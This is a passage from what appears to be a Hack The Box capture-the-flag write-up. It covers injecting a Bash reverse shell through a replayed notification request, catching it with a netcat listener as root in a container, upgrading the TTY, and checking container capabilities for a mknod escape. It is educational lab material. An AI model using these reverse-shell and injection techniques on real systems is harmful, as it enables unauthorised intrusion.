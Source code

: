 The body is the result of the common run on the system!

#### Shell

Annoyingly, on sending a test notification, the site sends me back to another tab, and the “Notifications” tab is empty on returning. I’ll just go to Burp and replay the same request in Repeater. I’ll change `id` to a [Bash Reverse Shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

![image-20240924210605118](/img/image-20240924210605118.png)

On sending, I get a shell as root in the container:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.34 50648
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@ae5c137aa8ef:/app# 

```

I’ll upgrade my shell using [the standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

root@ae5c137aa8ef:/app# script /dev/null -c bash
Script started, output log file is '/dev/null'. 
root@ae5c137aa8ef:/app# ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            ‍reset 
reset: unknown terminal type unknown
Terminal type? screen
root@ae5c137aa8ef:/app#

```

## Shell as admin\_admin992

### mknod Fail

Now that I have a low priv shell on the host and a root shell in a container, it is worth checking for the `mknod` exploit I showed as an [unintended solution for Intuition](/2024/09/14/htb-intuition.html#host-raw-disk-access). If I try to make a node, it doesn’t work. That’s because while the `mknod` capabilities is enabled by default, this container has it explicitly disabled:

```

root@ae5c137aa8ef:/app# capsh --print
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap=ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: !cap_dac_read_search,!cap_linux_immutable,!cap_net_broadcast,!cap_net_admin,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_module,!cap_sys_rawio,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_mknod,!cap_lease,!cap_audit_control,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read,!cap_perfmon,!cap_bpf,!cap_checkpoint_restore
Securebits: 00/0x0/1'b0 (no-new-privs=0)
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
```